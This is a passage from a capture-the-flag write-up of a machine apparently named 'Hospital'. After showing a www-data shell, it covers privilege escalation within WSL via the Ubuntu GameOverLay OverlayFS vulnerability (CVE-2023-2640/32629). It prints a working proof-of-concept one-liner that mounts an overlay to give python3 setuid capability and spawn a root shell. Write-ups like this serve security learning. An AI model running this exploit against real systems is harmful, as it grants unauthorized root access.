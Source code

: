 <img src="/assets/img/HospitalWriteup/hosp7.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

And on our terminal :

<img src="/assets/img/HospitalWriteup/hosp8.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

## From WSL user to WSL root

Now that we've got the user `www-data`, we can try to do some privilege escalation. To do this, we try to launch linpeas, but we do not very obvious results. Let's check out the kernel version with `uname -r` (or present in the linpeas output) which is `5.19.0-35-generic`. Seaching  for `kernel 5.19.0-35 exploit` show us some [results](https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability) and that a GameOverlay vulnerability exists (CVE-2023-2640 and CVE-2023-32629).

Here's the proof of concept of the exploit and it is explained [here](https://blog.projectdiscovery.io/gameover-lay-local-privilege-escalation-in-ubuntu-kernel/):

```bash
unshare -rm sh -c
    "mkdir l u w m && cp /u*/b*/p*3 l/;
    setcap cap_setuid+eip l/python3;
    mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m
    && touch m/*;"
&& u/python3 -c '
    import os;
    os.setuid(0);
    os.system("
        cp /bin/bash /var/tmp/bash && 
        chmod 4755 /var/tmp/bash && 
        /var/tmp/bash -p && 
        rm -rf l m u w /var/tmp/bash
    ")
'
```
